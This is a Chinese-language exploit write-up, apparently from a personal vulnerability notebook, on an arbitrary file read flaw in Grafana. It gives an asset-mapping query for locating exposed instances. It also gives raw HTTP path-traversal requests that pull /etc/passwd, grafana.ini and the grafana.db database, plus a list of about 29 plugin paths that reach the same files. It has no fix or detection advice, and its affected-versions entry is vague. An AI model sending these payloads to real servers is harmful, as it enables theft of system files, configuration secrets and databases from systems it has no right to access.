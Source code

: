 # Grafana存在任意文件读取漏洞

# 一、漏洞描述
Grafana是一个开源的可视化和分析平台，一个通用的可视化工具。‘通用’意味着Grafana不仅仅适用于展示Prometheus下的监控数据，也同样适用于一些其他的数据可视化需求。Grafana存在任意文件读取漏洞

# 二、影响版本
Grafana

# 三、资产测绘
```plain
app="Grafana"
```

![1727014008181-843b9798-1b88-4f7d-a968-ec49cfcfc74a.png](./img/8Nx1Nu4Ynx9J9B-F/1727014008181-843b9798-1b88-4f7d-a968-ec49cfcfc74a-677927.png)

# 三、漏洞复现
```plain
GET /public/plugins/gettingstarted/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 
Content-Length: 2
```

![1727017201650-ed9abda9-2b7f-4967-8f25-f7ed73941133.png](./img/8Nx1Nu4Ynx9J9B-F/1727017201650-ed9abda9-2b7f-4967-8f25-f7ed73941133-616038.png)

读取配置文件

```plain
GET /public/plugins/gettingstarted/../../../../../../../../../../../../../../../etc/grafana/grafana.ini HTTP/1.1
Host: 
Content-Length: 2
```

数据库

```plain
GET /public/plugins/gettingstarted/../../../../../../../../../../../../../../../var/lib/grafana/grafana.db HTTP/1.1
Host: 
Content-Length: 2
```

其他读取路径

```plain
/public/plugins/alertGroups/../../../../../../../../etc/passwd
/public/plugins/alertlist/../../../../../../../../etc/passwd
/public/plugins/annolist/../../../../../../../../etc/passwd
/public/plugins/barchart/../../../../../../../../etc/passwd
/public/plugins/bargauge/../../../../../../../../etc/passwd
/public/plugins/canvas/../../../../../../../../etc/passwd
/public/plugins/dashlist/../../../../../../../../etc/passwd
/public/plugins/debug/../../../../../../../../etc/passwd
/public/plugins/gauge/../../../../../../../../etc/passwd
/public/plugins/geomap/../../../../../../../../etc/passwd
/public/plugins/gettingstarted/../../../../../../../../etc/passwd
/public/plugins/graph/../../../../../../../../etc/passwd
/public/plugins/heatmap/../../../../../../../../etc/passwd
/public/plugins/histogram/../../../../../../../../etc/passwd
/public/plugins/live/../../../../../../../../etc/passwd
/public/plugins/logs/../../../../../../../../etc/passwd
/public/plugins/news/../../../../../../../../etc/passwd
/public/plugins/nodeGraph/../../../../../../../../etc/passwd
/public/plugins/piechart/../../../../../../../../etc/passwd
/public/plugins/pluginlist/../../../../../../../../etc/passwd
/public/plugins/stat/../../../../../../../../etc/passwd
/public/plugins/state-timeline/../../../../../../../../etc/passwd
/public/plugins/status-history/../../../../../../../../etc/passwd
/public/plugins/table/../../../../../../../../etc/passwd
/public/plugins/table-old/../../../../../../../../etc/passwd
/public/plugins/text/../../../../../../../../etc/passwd
/public/plugins/timeseries/../../../../../../../../etc/passwd
/public/plugins/welcome/../../../../../../../../etc/passwd
/public/plugins/xychart/../../../../../../../../etc/passwd
```



> 更新: 2024-10-22 09:41:43  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qkw3xd9rwpw26kmc>